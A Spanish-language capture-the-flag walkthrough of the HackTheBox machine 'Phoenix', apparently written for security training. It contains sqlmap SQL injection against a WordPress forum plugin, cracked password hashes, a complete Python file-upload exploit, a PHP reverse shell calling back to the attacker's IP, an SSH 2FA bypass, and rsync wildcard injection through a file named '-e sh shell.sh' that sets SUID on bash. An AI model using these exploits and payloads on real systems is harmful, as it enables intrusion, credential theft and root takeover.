

Resolución de la máquina Phoenix de la plataforma de HackTheBox
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 10.10.11.149
Nmap scan report for 10.10.11.149
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
443/tcp open https
Si enviamos un curl a 10.10.11.149 nos redirige a https://phoenix.htb
❯ curl 10.10.11.149
301 Moved Permanently
The document has moved <a href="https://phoenix.htb/">here</a>
Despues de agregar el host, miramos con whatweb las tecnologías y encontramos un wordpress
❯ whatweb https://phoenix.htb
Bootstrap[1.0.0,5.9]
JQuery[3.6.0]
WordPress[5.9]
Tiramos wpscan y lo más interesante es lo siguiente
❯ wpscan --url https://phoenix.htb/ --disable-tls-checks –enumerate
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
_______________________________________________________________
[+] URL: https://phoenix.htb/ [10.10.11.149]
[+] robots.txt found: https://phoenix.htb/robots.txt
| Interesting Entries:
| - /wp-admin/
| - /wp-admin/admin-ajax.php
| Found By: Robots Txt (Aggressive Detection)
| Confidence: 100%
[i] Plugin(s) Identified:
[+] asgaros-forum
| Location: https://phoenix.htb/wp-content/plugins/asgaros-forum/
| Last Updated: 2022-01-30T12:54:00.000Z
| [!] The version is out of date, the latest version is 2.0.0
|
| Found By: Urls In Homepage (Passive Detection)
| Confirmed By: Urls In 404 Page (Passive Detection)
|
| Version: 1.15.12 (10% confidence)
| Found By: Query Parameter (Passive Detection)
| - https://phoenix.htb/wp-content/plugins/asgaros-forum/skin/widgets.css?ver=1.15.12
[+] Finished
Tiene la versión 1.5.12 y encontramos el siguiente exploit para las anteriores a la 1.5.13, vemos una posible inyección sql con el ejemplo: "https://example.com/forum/?subscribe_topic=1"
Entonces jugaremos con sqlmap dandole la direccion, encontramos lo siguiente
❯ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=1"
<.....................................>
Database: wordpress
[40 tables]
+-------------------------------------+
| wp_commentmeta |
| wp_comments |
| wp_forum_ads |
| wp_forum_forums |
| wp_forum_polls |
| wp_forum_polls_options |
| wp_forum_polls_votes |
| wp_forum_posts |
| wp_forum_reactions |
| wp_forum_reports |
| wp_forum_topics |
| wp_links |
| wp_mo2f_network_blocked_ips |
| wp_mo2f_network_email_sent_audit |
| wp_mo2f_network_transactions |
| wp_mo2f_network_whitelisted_ips |
| wp_mo2f_user_details |
| wp_mo2f_user_login_info |
| wp_options |
| wp_pieregister_code |
| wp_pieregister_custom_user_roles |
| wp_pieregister_invite_code_emails |
| wp_pieregister_lockdowns |
| wp_pieregister_redirect_settings |
| wp_postmeta |
| wp_posts |
| wp_term_relationships |
| wp_term_taxonomy |
| wp_termmeta |
| wp_terms |
| wp_usermeta |
| wp_users |
| wp_wpns_attack_logs |
| wp_wpns_backup_report |
| wp_wpns_files_scan |
| wp_wpns_ip_rate_details |
| wp_wpns_malware_hash_file |
| wp_wpns_malware_scan_report |
| wp_wpns_malware_scan_report_details |
| wp_wpns_malware_skip_files |
+-------------------------------------+
<.....................................>
Dumpeamos wp_users y entre más cosas encontramos lo siguiente
+----+------------+------------------------------------+------------------------+
| ID | user_login | user_pass | user_email |
+----+------------+------------------------------------+------------------------+
| 1 | Phoenix | $P$BA5zlC0IhOiJKMTK.nWBgUB4Lxh/gc. | phoenix@phoenix.htb |
| 3 | john | $P$B8eBH6QfVODeb/gYCSJRvm9MyRv7xz. | john@domain.htb |
| 5 | Jsmith | $P$BV5kUPHrZfVDDWSkvbt/Fw3Oeozb.G. | john.smith@phoenix.htb |
| 6 | Jane | $P$BJCq26vxPmaQtAthFcnyNv1322qxD91 | jane@phoenix.htb |
| 7 | Jack | $P$BzalVhBkVN.6ii8y/nbv3CTLbC0E9e. | jack@phoenix.htb |
+----+------------+------------------------------------+------------------------+
Intentamos romper los hashes con john y encontramos 3 contraseñas
❯ cat hashes
phoenix:$P$BA5zlC0IhOiJKMTK.nWBgUB4Lxh/gc.
john:$P$B8eBH6QfVODeb/gYCSJRvm9MyRv7xz.
jsmith:$P$BV5kUPHrZfVDDWSkvbt/Fw3Oeozb.G.
jane:$P$BJCq26vxPmaQtAthFcnyNv1322qxD91
jack:$P$BzalVhBkVN.6ii8y/nbv3CTLbC0E9e.
❯ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hashes
Loaded 5 password hashes with 5 different salts (phpass [phpass ($P$ or $H$) 128/128 XOP 4x2])
password@1234 (john)
phoenixthefirebird14 (phoenix)
superphoenix (jsmith)
Session completed
Probamos las credenciales en el login, las de phoenix funcionan pero...

Como por ssh no funcionan probamos cosas diferentes, encontramos el siguiente exploit
Para omitir el ssl en estas dos lineas agregaremos ",verify=False"
response = requests.get(uri)
response = requests.get(uri, verify=False)
response = requests.post(uri, files=files, data=data)
response = requests.post(uri, files=files, data=data, verify=False)
Al final quedaria así
#!/usr/bin/python3
import os.path
from os import path
import json
import requests
import sys
def print_banner():
print("Download From Files <= 1.48 - Arbitrary File Upload")
def print_usage():
print("Usage: python3 exploit.py [target url] [php file]")
print("Ex: python3 exploit.py https://example.com ./shell.(php4/phtml)")
def vuln_check(uri):
response = requests.get(uri, verify=False)
raw = response.text
if ("Sikeres" in raw):
return True
else:
return False
def main():
print_banner()
if(len(sys.argv) != 3):
print_usage()
sys.exit(1)
base = sys.argv[1]
file_path = sys.argv[2]
ajax_action = 'download_from_files_617_fileupload'
admin = '/wp-admin/admin-ajax.php'
uri = base + admin + '?action=' + ajax_action
check = vuln_check(uri)
if(check == False):
print("(*) Target not vulnerable!")
sys.exit(1)
if(path.isfile(file_path) == False):
print("(*) Invalid file!")
sys.exit(1)
files = {'files[]' : open(file_path)}
data = {
"allowExt" : "php4,phtml",
"filesName" : "files",
"maxSize" : "1000",
"uploadDir" : "."
}
print("Uploading Shell...")
response = requests.post(uri, files=files, data=data, verify=False)
file_name = path.basename(file_path)
if("ok" in response.text):
print("Shell Uploaded!")
if(base[-1] != '/'):
base += '/'
print(base + "wp-admin/" + file_name)
else:
print("Shell Upload Failed")
sys.exit(1)
main()
Nos pide un archivo php con una reverse shell usaremos el siguiente de monkey pentester, cambianos nuestra ip y puerto además de la extensión a phtml
$ip = '127.0.0.1';
$port = 1234;
$ip = '10.10.14.10';
$port = 443;
❯ mv php-reverse-shell.php rev.phtml
Ejecutamos el exploit de la siguiente manera y nos da una ruta
❯ python3 exploit.py https://phoenix.htb/ rev.phtml
Download From Files <= 1.48 - Arbitrary File Upload
Uploading Shell...
Shell Uploaded!
https://phoenix.htb/wp-admin/rev.phtml
Estando en escucha, hacemos un curl a la ruta con -k por el certificado ssl y recibimos la shell
❯ curl -k https://phoenix.htb/wp-admin/rev.phtml
❯ sudo netcat -lvnp 443
Connection received on 10.10.11.149
wp_user@phoenix:~$
Miramos los usuarios e intentando reutilizar las contraseñas que encontramos antes conectarnos por ssh encontramos que las credenciales editor:superphoenix son validas pero nos pide un codigo de verificación
wp_user@phoenix:~$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
phoenix:x:1000:1000:Phoenix:/home/phoenix:/bin/bash
editor:x:1002:1002:John Smith,1,1,1,1:/home/editor:/bin/bash
wp_user@phoenix:~$ ssh editor@localhost
$$$$$$$\ $$\ $$\
$$ __$$\ $$ | \__|
$$ | $$ |$$$$$$$\ $$$$$$\ $$$$$$\ $$$$$$$\ $$\ $$\ $$\
$$$$$$$ |$$ __$$\ $$ __$$\ $$ __$$\ $$ __$$\ $$ |\$$\ $$ |
$$ ____/ $$ | $$ |$$ / $$ |$$$$$$$$ |$$ | $$ |$$ | \$$$$ /
$$ | $$ | $$ |$$ | $$ |$$ ____|$$ | $$ |$$ | $$ $$<
$$ | $$ | $$ |\$$$$$$ |\$$$$$$$\ $$ | $$ |$$ |$$ /\$$\
\__| \__| \__| \______/ \_______|\__| \__|\__|\__/ \__|
Password: superphoenix
Verification code:
Despues de mucho tiempo buscando encontramos que la solución es sencilla, hay otra interfaz abierta "10.11.12.13" donde no nos pide 2fa, ahora tenemos el user
wp_user@phoenix:~$ ifconfig | grep "inet\ "
inet 10.10.11.149 netmask 255.255.254.0 broadcast 10.10.11.255
inet 10.11.12.13 netmask 255.255.255.0 broadcast 0.0.0.0
inet 127.0.0.1 netmask 255.0.0.0
wp_user@phoenix:~$ ssh editor@10.11.12.13
$$$$$$$\ $$\ $$\
$$ __$$\ $$ | \__|
$$ | $$ |$$$$$$$\ $$$$$$\ $$$$$$\ $$$$$$$\ $$\ $$\ $$\
$$$$$$$ |$$ __$$\ $$ __$$\ $$ __$$\ $$ __$$\ $$ |\$$\ $$ |
$$ ____/ $$ | $$ |$$ / $$ |$$$$$$$$ |$$ | $$ |$$ | \$$$$ /
$$ | $$ | $$ |$$ | $$ |$$ ____|$$ | $$ |$$ | $$ $$<
$$ | $$ | $$ |\$$$$$$ |\$$$$$$$\ $$ | $$ |$$ |$$ /\$$\
\__| \__| \__| \______/ \_______|\__| \__|\__|\__/ \__|
Password: superphoenix
editor@phoenix:~$ cat user.txt
001***********************293
editor@phoenix:~$
Usamos pspy para mirar procesos pero no podemos ver procesos de otros usuarios aunque encontramos el siguiente binario /usr/local/bin/cron.sh.x, esto no es común verlo
Si lo ejecutamos manualmente entre más cosas encontramos lo siguiente
editor@phoenix:~$ /usr/local/bin/cron.sh.x
CMD: UID=1002 | rsync --ignore-existing -t *.* jit@10.11.12.14:/backups/Solo nos queda suponer que root lo ejecuta ya que se llama "cron" en hacktricks podemos ver una manera de explotar rsync
Es crear un archivo con el nombre "-e sh shell.sh" para que nos ejecute un archivo "shell.sh" que nosotros podemos definir entonces lo explotaremos así en /backups
editor@phoenix:/backups$ touch -- "-e sh shell.sh"
editor@phoenix:/backups$ chmod +x -- "-e sh shell.sh"
editor@phoenix:/backups$ echo "chmod u+s /bin/bash" > shell.sh
editor@phoenix:/backups$ chmod +x shell.sh
editor@phoenix:/backups$
Después de aproximadamente 3 minutos ¡root lo ejecuta! entonces ejecutamos la bash como el propietario y somos root
editor@phoenix:/backups$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18 2020 /bin/bash
editor@phoenix:/backups$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
667*************************390
bash-5.0#